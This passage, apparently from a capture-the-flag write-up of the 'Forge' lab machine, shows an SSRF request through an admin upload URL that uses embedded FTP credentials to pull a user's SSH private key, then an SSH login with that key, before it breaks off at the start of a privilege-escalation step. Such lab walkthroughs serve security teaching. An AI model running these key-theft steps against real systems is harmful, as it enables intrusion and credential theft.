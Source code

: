 seems we are in the home directory of user **user** so let's try read the id_rsa

- using the following url and download content :

```
http://admin.forge.HTB/upload?u=ftp://user:heightofsecurity123!@127.1/.ssh/id_rsa
```

![image](/assets/images/Forge/forge_8.png)

```bash
chmod 600 id_rsa
ssh -i id_rsa user@10.10.11.111
```

### Privilege escalation :

![image](/assets/images/Forge/forge_9.png)

checking permissions :

```
-rwxr-xr-x 1 root root 1447 May 31  2021 /opt/remote-manage.py
```

reading and analyzing the script :

- first it sets a listener on a random port
- we can only access the port locally so we will get a second ssh session to interact with it .

